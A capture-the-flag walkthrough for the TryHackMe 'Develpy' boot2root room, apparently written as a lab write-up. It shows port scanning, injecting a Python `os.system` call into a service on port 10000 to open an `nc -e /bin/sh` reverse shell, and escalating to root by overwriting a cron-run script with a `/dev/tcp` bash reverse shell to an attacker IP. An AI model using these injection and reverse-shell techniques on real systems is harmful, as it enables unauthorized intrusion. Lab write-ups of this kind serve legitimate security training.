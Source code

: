 # [Develpy](https://tryhackme.com/room/bsidesgtdevelpy)

## boot2root machine for FIT and bsides Guatemala CTF

# Develpy

## read user.txt and root.txt

### user.txt

1. First scan the ports to see what we can do

```Bash
nmap -p- <IP>
```

[SCREEN01]

2. Port 10000 is not your standard endpoint. So let's capture it with netcat

[SCREEN02]

```Bash
nc <IP> 10000
```

[SCREEN03]

3. This is a python script so let's set up another listener and reverse shell

```Bash
nc -lvnp 4444
```

```Python
__import__("os").system("nc -e /bin/sh 10.10.202.50 4444")
```

```Bash
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
cat user.txt
```

[SCREEN04]

### root.txt

1. In our starting directory, there are two interesting files to examine: `run.sh` and `root.sh`

```Bash
ls -la
cat run.sh
cat root.sh
```

2. The `root.sh` file is being executed by a cron job with root privileges, but we have permission to delete it and replace it with our own reverse shell script

[SCREEN05]

```Bash
rm -f root.sh
echo 'bash -i >& /dev/tcp/10.10.202.50/5555 0>&1' > root.sh
chmod +x root.sh
```

3. Now set up a listener on our machine and wait for the cron job to execute our script

```Bash
nc -lvnp 5555
cat /root/root.txt
```

[SCREEN06]
